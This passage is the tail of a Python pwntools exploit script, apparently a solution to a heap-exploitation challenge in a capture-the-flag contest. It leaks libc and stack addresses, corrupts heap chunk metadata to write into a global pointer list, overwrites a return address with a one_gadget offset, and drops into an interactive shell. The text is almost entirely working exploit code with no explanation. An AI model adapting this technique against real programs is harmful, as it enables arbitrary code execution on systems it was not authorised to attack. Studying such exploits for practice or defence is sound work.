libc_base=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-0x3c4b78
leak('libc_base',libc_base)

chunk_list_addr=0x602040
chunk2_addr=heap_addr+0xf0
offset=chunk2_addr-chunk_list_addr
leak('chunk_list_addr >> ',chunk_list_addr)
leak('chunk2_addr >> ',chunk2_addr)
leak('offset >> ',offset)
add(0xe8, "g"*(0xe8-0x8) + p64(offset))
delete(4)

pl=p64(0x100)+p64(offset)
pl+=p64(chunk_list_addr)*4
edit(2, pl)
delete(2)

gadget = [0x45226,0x4527a,0xf03a4,0xf1247]
gadget_addr = libc_base + gadget[3]
payload = p64(0xe8) + p64(libc_base + libc.symbols["__environ"])
payload += p64(0xe8) + p64(0x602148)
add(0xe0, "t"*0xe0)
add(0x100, payload)


p.readuntil("# CONTENT: ")
stack_env=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
success("env_stack address: " + hex(stack_env))

edit(2, p64(stack_env-240))
edit(1, p64(gadget_addr))
p.readuntil("(CMD)>>>")
p.sendline("Q")

itr()
```
